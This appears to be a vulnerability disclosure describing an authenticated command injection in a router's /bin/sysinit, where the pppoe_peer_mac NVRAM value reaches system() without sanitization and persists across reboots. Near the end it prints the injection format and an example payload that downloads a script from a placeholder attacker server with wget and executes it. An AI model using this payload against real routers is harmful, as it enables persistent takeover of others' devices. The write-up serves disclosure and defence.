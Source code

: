 The vulnerability exists within the sysinit binary (/bin/sysinit) which processes the `pppoe_peer_mac` NVRAM parameter during system initialization. As shown in the screenshot at address `0x0000d0f4`, a system call is made that incorporates the `pppoe_peer_mac` value without proper sanitization.

<br>
<p align="center">
<img src="/assets/2025-03-25/5.png"/>
</p>
<br>

The fundamental cause is that the router firmware does not perform adequate input validation or sanitization when the `pppoe_peer_mac` parameter is set, nor when it's subsequently used in command execution. Specifically, the value is retrieved at `0x0000d0c0` with `nvram_get("pppoe_peer_mac")` and then passed to the following `sprintf` call at `0x0000d0e4`: `sprintf(str: &var_System_Command_String, format: "pppoe -e %d:%s -k ", r0_4, r3)` where `r3` can contain the unsanitized `pppoe_peer_mac` value. 

By including shell metacharacters such as semicolons (;) and hash symbols (#), an attacker can break out of the intended command context and inject arbitrary commands that will be executed by the system at `0x0000d0f4` via `system(command: &var_System_Command_String)`. 

Since the `pppoe_peer_mac` value is stored in NVRAM, this injection persists across reboots and is executed during the post-boot setup process of the router, making this vulnerability particularly dangerous as a persistence mechanism. 

Exploitation requires authentication to the router's administrative interface. The attacker must either: 
1. Log in to the web administration interface and modify the PPPoE peer MAC setting, or 
2. Send a specially crafted HTTP POST request to the router's `/post.cgi` endpoint 

For this vulnerability to be exploitable, the router needs to be configured to use PPPoE for its WAN authentication, which is controlled by the NVRAM wan_proto parameter. Attackers can conveniently set both parameters in the same malicious request. 

The exploit payload follows this format: 

``` 
pppoe_peer_mac=;command_to_execute # 

``` 

The semicolon (;) terminates the original command, allowing injection of an arbitrary command, while the hash symbol (#) comments out any trailing portions of the original command string. 

For an example attack, an attacker could download and execute a malicious script with: 

``` 
pppoe_peer_mac=;{wget http://ATTACKER-SERVER/malicious_script.sh -P /tmp/ && /tmp/malicious_script.sh} # 

``` 

This exploits the command injection by: 
1. Breaking out of the original command context with the semicolon 
2. Executing commands to download and run a malicious script 
3. Using the hash symbol to comment out the rest of the original command 
